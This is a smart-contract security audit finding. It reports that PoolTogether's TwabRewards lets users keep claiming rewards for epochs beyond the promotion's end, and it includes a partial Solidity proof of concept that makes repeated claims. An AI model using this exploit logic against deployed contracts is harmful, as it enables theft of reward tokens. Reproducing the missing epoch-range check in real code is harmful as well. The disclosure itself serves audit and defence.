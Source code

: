 

## [[H-03] Continue claiming reqrds after numberOfEpochs are over](https://github.com/code-423n4/2021-12-pooltogether-findings/issues/20)
_Submitted by gpersoon, also found by 0xabc, csanuragjain, harleythedog, kenzo, and leastwood_

#### Impact

When claiming rewards via `claimRewards()`, the function `\_calculateRewardAmount()` is called.
The function `\_calculateRewardAmount()` has a check to make sure the epoch is over

```JS
  require(block.timestamp > _epochEndTimestamp, "TwabRewards/epoch-not-over"); 
```

However neither functions check if the `\_epochId` is within the range of the reward epochs.
Ergo it is possible to continue claiming rewards after the reward period is over.
This only works as long as there are enough tokens in the contract. But this is the case when not everyone has claimed, or other rewards use the same token.

The proof of concept contains a simplified version of the contract, and shows how this can be done.
When run in remix you get the following output, while there is only 1 epoch.
`console.log:
 Claiming for epoch 1 1
 Claiming for epoch 2 1
 Claiming for epoch 3 1
 Claiming for epoch 4 1
 Claiming for epoch 5 1`

#### Proof of Concept

```JS
 // SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.6;
import "hardhat/console.sol";  

contract TwabRewards {

    struct Promotion {
        uint216 tokensPerEpoch;
        uint32 startTimestamp;
        uint32 epochDuration;
        uint8 numberOfEpochs;
    }
    mapping(uint256 => Promotion) internal _promotions;
    uint256 internal _latestPromotionId;
    mapping(uint256 => mapping(address => uint256)) internal _claimedEpochs;
    
    constructor() {
        uint id=createPromotion(1,uint32(block.timestamp)-10,1,1);
        claimRewards(id,1);
        claimRewards(id,2);
        claimRewards(id,3);
        claimRewards(id,4);
        claimRewards(id,5);
    }
     
    function createPromotion(uint216 _tokensPerEpoch,uint32 _startTimestamp,uint32 _epochDuration,uint8 _numberOfEpochs) public  returns (uint256) {
        uint256 _nextPromotionId = _latestPromotionId + 1;
        _latestPromotionId = _nextPromotionId;
        _promotions[_nextPromotionId] = Promotion(_tokensPerEpoch,_startTimestamp,_epochDuration,_numberOfEpochs);
        return _nextPromotionId;
    }
```